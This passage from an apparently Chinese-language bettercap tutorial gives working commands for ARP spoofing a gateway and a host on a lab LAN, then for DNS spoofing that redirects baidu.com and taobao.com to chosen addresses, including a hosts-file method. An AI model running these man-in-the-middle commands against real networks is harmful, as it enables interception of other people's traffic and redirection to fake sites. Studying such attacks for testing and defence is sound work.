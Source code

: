 *   arp.ban off :  停止 ARP 欺骗
    

**参数：**

*   arp.spoof.internal：如果为 true，那么网络中的计算机之间的本地连接将被欺骗，否则只能连接到来自外部网络 (默认为 false)
    
*   arp.spoof.targets：要欺骗的目标，可以是 ip 、mac 或者 别名 ，也可以支持 nmap 形式的 ip 区域
    
*   arp.spoof.whitelist：白名单，就是不欺骗的目标，可以是 ip、mac 或者别名
    

对于参数，我们可以 get 和 set。

```
set arp.spoof.targets  192.168.10.2,192.168.10.14   #我们设置攻击目标，用逗号分隔。分别欺骗网关(192.168.10.2)和要欺骗的主机(192.168.10.14是我另外一台主机)，这里也可以是一个网段，如：192.168.10-20
get arp.spoof.targets    #获取arp.spoof.targets的值
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXRehoe7s9Wjkgicc95Ns0fFPwfiaExxicr7s7SPNsARJ3NP2aN4Hla1GIIBw/640?wx_fmt=png)

设置好了参数之后，我们就可以开启 ARP 欺骗了：arp.spoof  on 

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXReHRZgq9nBOfQ3hOKe9JVZJzLxvSYn74ZhYA4ZQicxibKlrYQI9TvfW79A/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXRe2M9JlOic2SnucwL552aia3GQPrMp6q98CGicBgP7l6ZzuuTT2qxX7dyUA/640?wx_fmt=gif)

DNS 欺骗  

dns 欺骗这里有一个前提，那就是局域网内的主机的 DNS 服务器是局域网内的网关，那样我们才能进行 DNS 欺骗，如果 DNS 服务器设置的是公网的 DNS 服务器，比如设置的谷歌的 8.8.8.8 DNS 服务器的话，这样是不能进行 DNS 欺骗的。

DNS 欺骗之前，我们先得进行 **ARP 欺骗**，就是先欺骗主机让其认为网关就是我 (攻击机)。然后由于主机的 DNS 服务器就是网关，所以主机会向我们发送 DNS 请求，这样我们就可以进行欺骗了。

```
set arp.spoof.targets 192.168.10.2,192.168.10.14
arp.spoof on    #先开启arp欺骗
set dns.spoof.domains www.baidu.com,www,taobao.com  #设置要欺骗的域名,多个域名用,分开，如果要欺骗所有的域名的话，为 *
set dns.spoof.address 3.3.3.3   #设置将要欺骗的域名转换成对应的ip地址
dns.spoof on   #开启dns欺骗，www.baidu.com和www.taobao.com对应的ip是3.3.3.3
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXReNsvOTX0rpApfzp7XZI53PHVn0wNicukFWicFtahb91701LMuW8lcqSCg/640?wx_fmt=png)

可以看到，已经欺骗成功了

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXReymgZeUZPAXaXhuBq2A623ia5JEUAZ9jKpt4QKBNwUOml0JX7j3LNjuA/640?wx_fmt=png)

**还有一种方法**

我们可以在打开 bettercap 的目录创建一个文件 host，文件中存放这要欺骗的域名和地址，如下

```
1.1.1.1 www.baidu.com
2.2.2.2 www.taobao.com
3.3.3.3 www.mi.com
```
